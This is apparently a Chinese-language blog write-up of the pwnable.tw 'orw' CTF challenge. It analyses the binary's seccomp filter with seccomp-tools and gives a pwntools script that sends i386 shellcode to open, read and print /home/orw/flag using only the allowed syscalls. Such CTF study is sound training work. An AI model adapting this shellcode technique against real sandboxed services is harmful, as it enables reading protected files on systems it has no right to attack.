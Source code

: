 ```yaml
---
layout: post
title: prctl&pwnable_orw
categories: pwn
tags: [pwn]
description: 11
date: 2020-02-25
---
```





## 相关工具
seccomp-tools https://github.com/david942j/seccomp-tools

## orw
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
拽进Ida，根据prctl函数可以确定几个结构体。
```
  qmemcpy(&sock_filter, stru_8048640, 0x60u);
  LOWORD(sfp.len) = 12;
  sfp.filter = &sock_filter;
  prctl(38, 1, 0, 0, 0);                        // prctl(PR_SET_NO_NEW_PRIVS,1,0,0,0);
  prctl(22, 2, &sfp);                           // prctl(PR_SET_SECCOMP,SECCOMP_MODE_FILTER,&prog);
```

![img](/assets/images/2020-02-07-prctl&pwnable_orw/struct3.png)
![img](/assets/images/2020-02-07-prctl&pwnable_orw/struct1.png)


整个程序就是让我们输入一段shellcode，去打开提示所说的 **/home/orw/flag** 


```
➜  seccomp-tools dump ./orw
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x09 0x40000003  if (A != ARCH_I386) goto 0011
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x15 0x07 0x00 0x000000ad  if (A == rt_sigreturn) goto 0011
 0004: 0x15 0x06 0x00 0x00000077  if (A == sigreturn) goto 0011
 0005: 0x15 0x05 0x00 0x000000fc  if (A == exit_group) goto 0011
 0006: 0x15 0x04 0x00 0x00000001  if (A == exit) goto 0011
 0007: 0x15 0x03 0x00 0x00000005  if (A == open) goto 0011
 0008: 0x15 0x02 0x00 0x00000003  if (A == read) goto 0011
 0009: 0x15 0x01 0x00 0x00000004  if (A == write) goto 0011
 0010: 0x06 0x00 0x00 0x00050026  return ERRNO(38)
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```
能用的函数：rt_sigreturn、sigreturn、exit_group、exit、open、read、write

## exp
```python
from pwn import *
p = remote('chall.pwnable.tw',10001)
shellcode = ''
#open(/home/orw/flag,0,0)
shellcode+=asm('mov eax,0x5;push 0x00006761;push 0x6c662f77;push 0x726f2f65;push 0x6d6f682f;mov ebx,esp;int 0x80;')
#read(3,/home/orw/flag,0x30)
shellcode +=asm('mov eax,0x3;mov ecx,ebx;mov ebx,0x3;mov edx,0x30;int 0x80;')
#write(1,/home/orw/flag,0x30)
shellcode+=asm('mov eax,0x4; mov ebx,0x1;int 0x80;')
p.recvuntil(':')
p.send(shellcode)
p.interactive()
```

在 http://syscalls.kernelgrok.com/ 可以看到调用号和各寄存器作用
